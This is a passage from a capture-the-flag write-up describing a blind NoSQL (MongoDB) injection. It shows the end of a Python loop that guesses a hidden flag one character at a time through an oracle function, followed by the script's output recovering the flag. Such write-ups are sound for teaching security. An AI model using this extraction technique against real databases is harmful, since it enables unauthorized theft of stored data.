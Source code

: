 ```python
    found = True
    while found:
        found = False
        for char in string.ascii_letters + string.digits + "{}_":
            if test(result + char):
                print(f"[+] {result}{char}")
                result += char
                found = True
                break
```

Executing the script finally revealed the flag (I was lucky that lowercase letter were before uppercase letters and that the hidden recipe was the only one starting with a lowercase letter, otherwise I would have needed to adjust the script a bit):

```default
$ python3 exploit.py 
[+] f
[+] fl
[+] fla
[+] flag
[+] flag{
[+] flag{m
[+] flag{mo
[+] flag{mon
[+] flag{mong
[+] flag{mongo
[+] flag{mongod
[+] flag{mongodb
[+] flag{mongodb_
[+] flag{mongodb_o
[+] flag{mongodb_oh
[+] flag{mongodb_oh_
[+] flag{mongodb_oh_n
[+] flag{mongodb_oh_no
[+] flag{mongodb_oh_noo
[+] flag{mongodb_oh_nooo
[+] flag{mongodb_oh_noooo
[+] flag{mongodb_oh_noooo_
[+] flag{mongodb_oh_noooo_s
[+] flag{mongodb_oh_noooo_sq
[+] flag{mongodb_oh_noooo_sql
[+] flag{mongodb_oh_noooo_sql}
```
